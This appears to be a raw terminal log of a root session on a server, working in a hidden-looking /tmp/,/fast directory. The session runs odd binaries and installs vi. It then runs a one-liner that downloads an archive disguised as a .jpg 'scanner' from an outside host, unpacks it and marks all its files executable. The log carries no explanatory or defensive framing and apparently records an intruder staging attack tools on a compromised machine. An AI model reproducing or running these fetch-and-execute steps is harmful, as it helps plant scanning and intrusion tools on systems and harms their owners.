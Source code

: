     server:/tmp/,/fast# ./pico 1.user
    Shall we play a game?
    A strange game. The only winning move is not to play.  How about a nice game of chess?

    server:/tmp/,/fast# ./pico 1.user
    Shall we play a game? y
    A strange game. The only winning move is not to play.  How about a nice game of chess?

    server:/tmp/,/fast#

    server:/tmp/,/fast# ls -a
    .           ..          src         r           mkindex     Makefile
    m.set       m.help      LinkEvents  go          genuser     configure
    checkmech   bash        3.user      2.user      1.user      configure.c
    pico.jpg    pico

    server:/tmp/,/fast# apt-get install vi
    Reading package lists... Done
    Building dependency tree
    Reading state information... Done
    The following NEW packages will be installed:
      vi
    0 upgraded, 1 newly installed, 0 to remove and 259 not upgraded.
    Need to get 442.2kB of archives.
    After this operation, 972.4kB of additional disk space will be used.
    Get:1 http://ftp.debian.org stable/main vi 0.12-1 [442.2kB]
    Fetched 442.2kB in 1s (4493B/s)
    Reading package fields... Done
    Reading package status... Done
    (Reading database ... 177887 files and directories currently installed.)
    Unpacking vi (from .../archives/vi_0.12-1_i386.deb) ...
    Processing triggers for man-db ...
    Setting up vi (0.12-1) ...

    server:/tmp/,/fast# vi 1.user
    E558: Terminal entry not found in terminfo

    server:/tmp/,/fast#

    server:/tmp/,/fast# wget http://root-arhive.do.am/scanner/goshNEW.jpg  ; tar zxvf goshNEW.jpg ; cd goshNEW ; chmod +x *

    server:/tmp/,/fast# cd ..

    server:/tmp/,# ls -a
    .        ..       fast.jpg fast

    server:/tmp/,# wget http://root-arhive.do.am/scanner/goshNEW.jpg  ; tar zxvf goshNEW.jpg ; cd goshNEW ; chmod +x *
    --2011-03-02 21:11:59--  http://root-arhive.do.am/scanner/goshNEW.jpg
    Connecting to root-arhive.do.am:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 3144067 (2M) [image/jpeg]
    Saving to: `goshNEW.jpg

    100%[======================================>] 3,144,067    759K/s  eta 0s
